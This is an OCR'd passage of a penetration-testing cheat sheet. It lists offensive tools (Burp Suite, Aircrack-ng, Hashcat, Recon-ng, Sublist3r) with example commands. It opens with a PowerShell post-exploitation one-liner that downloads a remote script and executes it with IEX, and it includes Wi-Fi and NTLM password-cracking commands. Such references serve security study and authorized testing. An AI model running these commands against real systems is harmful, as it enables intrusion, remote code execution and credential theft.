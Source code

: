 - **Description:** Used for post-exploitation and automation.
- **Command:**
    
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.10/script.ps1')
    ```
    

### Burp Suite

- **Description:** A web application testing tool for intercepting, analyzing, and modifying HTTP/HTTPS traffic.
    
- **Usage:** Launch Burp Suite, configure the proxy settings in your browser, and start intercepting requests to identify vulnerabilities like XSS or SQL injection.
    

### Aircrack-ng

- **Description:** A suite of tools for auditing Wi-Fi networks, including password cracking.
    
- **Command:**
    
    ```bash
    aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap
    ```
    

### Hashcat

- **Description:** An advanced password cracking tool supporting multiple hash types.
    
- **Command:**
    
    ```bash
    hashcat -m 1000 -a 0 ntlm_hash.txt /usr/share/wordlists/rockyou.txt --force
    ```
    

### Recon-ng

- **Description:** An OSINT reconnaissance framework for gathering information.
    
- **Command:**
    
    ```bash
    recon-ng -m domain_enum -o DOMAIN=example.com
    ```
    

### Sublist3r

- **Description:** A tool for subdomain enumeration using OSINT sources.
    
- **Command:**
    
    ```bash
    sublist3r -d example.com -o output.txt
    ```
    